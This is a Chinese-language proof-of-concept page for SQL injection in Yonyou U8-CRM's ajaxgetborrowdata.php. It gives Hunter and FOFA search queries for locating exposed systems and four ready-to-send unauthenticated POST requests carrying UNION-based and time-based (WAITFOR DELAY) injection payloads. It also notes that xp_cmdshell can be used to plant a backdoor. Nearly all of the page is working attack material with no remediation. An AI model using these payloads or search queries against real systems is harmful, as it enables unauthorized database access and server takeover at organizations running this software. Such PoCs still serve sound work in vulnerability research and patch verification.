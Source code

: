 # 用友U8-CRM系统ajaxgetborrowdata.php存在SQL注入漏洞

用友U8-CRM系统ajaxgetborrowdata.php存在SQL注入漏洞，文件多个方法存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

## hunter

```jade
app.name="用友 CRM"
```

## fofa

```jade
title="用友U8CRM"
```

## poc

```javascript
POST /borrowout/ajaxgetborrowdata.php?DontCheckLogin=1&Action=getWarehouseOtherInfo HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

cWhCode=1%27+UNION+ALL+SELECT+CHAR%28113%29%2BCHAR%28113%29%2BCHAR%28118%29%2BCHAR%28106%29%2BCHAR%28113%29%2BCHAR%2899%29%2BCHAR%28105%29%2BCHAR%28114%29%2BCHAR%2887%29%2BCHAR%28120%29%2BCHAR%2874%29%2BCHAR%2866%29%2BCHAR%28106%29%2BCHAR%2885%29%2BCHAR%2898%29%2BCHAR%2886%29%2BCHAR%2874%29%2BCHAR%2875%29%2BCHAR%2868%29%2BCHAR%28108%29%2BCHAR%2899%29%2BCHAR%28114%29%2BCHAR%2890%29%2BCHAR%2867%29%2BCHAR%2874%29%2BCHAR%28114%29%2BCHAR%2873%29%2BCHAR%2876%29%2BCHAR%2877%29%2BCHAR%28101%29%2BCHAR%2870%29%2BCHAR%28122%29%2BCHAR%2888%29%2BCHAR%2886%29%2BCHAR%28103%29%2BCHAR%2881%29%2BCHAR%2899%29%2BCHAR%28107%29%2BCHAR%2865%29%2BCHAR%2868%29%2BCHAR%2867%29%2BCHAR%2885%29%2BCHAR%2876%29%2BCHAR%2879%29%2BCHAR%28122%29%2BCHAR%28113%29%2BCHAR%28120%29%2BCHAR%28122%29%2BCHAR%2898%29%2BCHAR%28113%29--+KRVC
```

```javascript
POST /borrowout/ajaxgetborrowdata.php?DontCheckLogin=1&Action=getInvOtherInfo HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

cInvCode=1%27%3BWAITFOR+DELAY+%270%3A0%3A6%27--
```

```javascript
POST /borrowout/ajaxgetborrowdata.php?DontCheckLogin=1&Action=getCusInfo HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

cus=1%27%3BWAITFOR+DELAY+%270%3A0%3A6%27--
```

```javascript
POST /borrowout/ajaxgetborrowdata.php?DontCheckLogin=1&Action=getCusPrice HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

i=-99%27%3BWAITFOR+DELAY+%270%3A0%3A3%27--
```

![image-20241128092450453](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280924536.png)

![image-20241128092503553](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280925626.png)